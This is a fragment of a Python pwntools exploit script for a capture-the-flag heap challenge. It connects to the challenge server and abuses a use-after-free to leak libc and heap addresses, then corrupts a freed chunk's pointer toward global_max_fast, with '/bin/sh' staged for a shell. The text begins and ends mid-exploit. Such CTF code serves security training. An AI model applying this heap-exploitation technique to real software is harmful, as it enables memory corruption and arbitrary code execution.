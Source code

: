 ```python
    p.sendlineafter(">", str(idx))


def edit(idx, d):
    p.sendlineafter(">", "3")
    p.sendlineafter(">", str(idx))
    p.sendafter(">", d)


def view(idx):
    p.sendlineafter(">", "4")
    p.sendlineafter(">", str(idx))


while True:
    #p = process([e.path])
    try:
        p = remote("use-after-freedom.hsc.tf", 1337)
    except pwnlib.exception.PwnlibException:
        sleep(2)
        continue

    context.log_level="debug"
    #gdb.attach(p, """c""")

    p.recvuntil("Exit")


    add(0x500, "AAAA")
    add(0x30, "/bin/sh")

    delete(0)
    view(0)

    p.recv(1)

    libc.address = u64(p.recv(6).ljust(8, "\x00")) - 0x3ebca0

    print("libc", hex(libc.address))
    print("main arena ptr", hex(libc.address + 0x3ebca0))
    print("system", hex(libc.sym["system"]))
    print("need to leek", hex(libc.address + 0x3eaf40))
    print("asdf", hex(libc.sym["global_max_fast"]))


    delete(1)

    edit(1, "A"*16)

    delete(1)

    view(1)

    p.recv(1)

    heap = u64(p.recv(6).ljust(8, "\x00"))

    print(hex(heap))

    offset = 0xf93760 #input()

    edit(0, "a"*8 + p64(heap - offset - 0x10 + 1))

```